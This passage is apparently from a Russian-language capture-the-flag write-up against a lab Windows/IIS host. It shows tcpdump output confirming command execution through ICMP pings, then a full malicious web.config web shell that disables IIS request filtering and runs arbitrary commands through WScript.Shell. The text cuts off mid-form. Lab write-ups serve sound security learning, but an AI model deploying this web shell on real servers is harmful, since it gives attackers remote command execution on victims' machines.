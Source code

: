 ```xml
```

```text
root@kali:~# tcpdump -v -i tun0 'icmp[icmptype]==8'
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:41:26.864065 IP (tos 0x0, ttl 127, id 23611, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.10.93 > kali: ICMP echo request, id 1, seq 5, length 40
16:41:27.844633 IP (tos 0x0, ttl 127, id 23892, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.10.93 > kali: ICMP echo request, id 1, seq 6, length 40
16:41:28.828688 IP (tos 0x0, ttl 127, id 24184, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.10.93 > kali: ICMP echo request, id 1, seq 7, length 40
16:41:29.811432 IP (tos 0x0, ttl 127, id 24455, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.10.93 > kali: ICMP echo request, id 1, seq 8, length 40
^C
4 packets captured
4 packets received by filter
0 packets dropped by kernel
```

Снова успех, некст этап.

### web.config для RCE [Web-Shell]
Загрузим на сервер [веб-шелл](https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c#file-webshell-web-config "Malicious web.config's") в виде такого кода:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<% Response.write("-"&"->") %>

<%
Set oScript = Server.CreateObject("WScript.Shell")
Set oScriptNet = Server.CreateObject("WScript.Network")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)

    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<BODY>
<FORM action="" method="GET">
```